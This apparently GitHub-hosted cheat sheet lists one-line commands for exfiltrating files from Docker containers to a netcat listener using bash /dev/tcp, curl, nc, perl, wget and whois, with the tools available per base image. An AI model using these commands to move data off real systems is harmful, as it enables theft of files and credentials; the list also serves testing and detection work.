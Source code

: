# Docker image-based file exfiltration

The following collection strives to offer accessible
methodologies for extracting files from widely
utilized Docker images.
It is important to note that these methods should
not be employed for any illicit or unauthorized purposes,
but rather for legitimate applications such as network
connectivity testing and related evaluations.

```bash
# start the container (with host network)
docker run -it --network="host" <image> sh

# start a nc tcp listener on the host
nc -nvlp 8888 > example
```

## Resources

- [0xffsec.com](https://0xffsec.com/handbook/exfiltration/)
- [Hacking Articles](https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/)

## Exfiltrate possibilities

- bash
- curl
- nc / netcat
- perl
- wget
- whois

**bash**

```bash
bash -c 'echo -e "POST / HTTP/0.9\n\n$(<example.txt)" > /dev/tcp/localhost/8888'
```

**curl:**

```bash
curl -X POST -d @example.txt localhost:8888
```

**nc / netcat:**

```bash
# exfiltrate via tcp
nc localhost 8888 < example.txt
```

**perl**

```bash
perl -MIO::Socket::INET -e '$c=new IO::Socket::INET(PeerAddr,"localhost:8888");open(F,"example.txt");print $c $_ while(<F>);close(F);$c->close();'
```

**wget:**

```bash
wget --post-file=example.txt localhost:8888
```

**whois:**

```bash
whois -h localhost -p 8888 `cat example.txt`
```

## alpine

- nc
- wget
- whois

## debian & ubuntu

- bash
- perl

## centos

- bash
- curl
